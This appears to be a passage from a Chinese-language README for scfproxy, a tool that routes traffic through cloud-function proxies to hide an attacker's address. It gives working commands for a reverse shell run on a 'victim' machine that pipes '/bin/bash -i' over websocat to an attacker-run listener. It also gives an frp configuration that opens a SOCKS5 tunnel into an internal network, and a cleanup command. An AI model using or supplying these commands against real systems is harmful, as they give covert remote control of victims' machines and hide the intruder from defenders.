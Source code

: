 ![cs.png](img/cs.png)

#### 反弹 shell 地址隐藏

借助 [websocat](https://github.com/vi/websocat) 工具可实现反弹 shell 的功能。

```console
scfproxy deploy reverse ... -o ws://vps --ip victim
```

受害者端执行：

```console
websocat ws://reverse_proxy_address  sh-c:'/bin/bash -i 2>&1' --binary -v --compress-zlib
```

攻击者 vps 执行：

```console
websocat ws-l:0.0.0.0:port - --binary -E --uncompress-zlib
```

效果如图：
![reverse_shell.png](img/reverse_shell.png)

#### 内网穿透地址隐藏

该使用场景需要支持 websocket 协议的内网穿透软件。

```console
scfproxy deploy reverse ... -o ws://vps --ip victim
```

以 frp 为例，客户端配置：

```ini
[common]
server_addr = reverse_proxy_domain
server_port = 80
tls_enable = true 
protocol = websocket

[plugin_sock5]
type = tcp
remote_port = 8080
plugin = socks5
use_encryption = true
use_compression = true
```

效果如图
![frp](img/frp.png)

### 清理

```console
scfproxy clear reverse -p provider_list -r region_list -o origin
```

